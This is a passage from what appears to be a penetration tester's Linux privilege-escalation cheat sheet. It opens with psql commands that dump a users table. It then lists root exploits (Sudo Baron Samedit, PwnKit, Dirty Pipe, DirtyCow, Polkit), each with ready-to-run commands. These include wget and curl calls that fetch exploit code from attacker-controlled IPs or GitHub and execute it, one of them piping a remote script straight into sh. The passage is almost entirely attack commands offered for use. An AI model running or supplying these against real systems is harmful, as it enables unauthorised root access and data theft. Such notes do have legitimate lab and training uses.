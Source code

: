 ```jsx
psql -h 240.0.0.1 -p 5432 -U postgres -d webapp
\list
\c <database>
\d
\d+ users
SELECT * FROM users;
```

### Exploits

<aside>
💡 Try the suggested linpeas exploit. Could maybe use one of those:

</aside>

Sudo Baron Samedit (Sudo <1.9.5p2)

```jsx
wget http://192.168.45.218/SudoBaron/exploit_nss.py
python3 exploit_nss.py
```

[https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)

PwnKit (SUID pkexec)

```jsx
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

[https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)

DirtyCow (Linux kernel <4.8.3)

[https://github.com/dirtycow/dirtycow.github.io](https://github.com/dirtycow/dirtycow.github.io)

Dirty pipe (Linux kernel >5.8)

```jsx
wget http://192.168.49.136/DirtyPipe/compile.sh
wget http://192.168.49.136/DirtyPipe/exploit-1.c
wget http://192.168.49.136/DirtyPipe/exploit-2.c
chmod +x compile.sh
./compile.sh
./exploit-1
# or
./exploit-2
```

[GitHub - AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits: A collection of exploits and documentation that can be used to exploit the Linux Dirty Pipe vulnerability.](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/tree/main)

Polkit (version >0.113)

[https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)

### Root Tricks - Writable sudoers/passwd

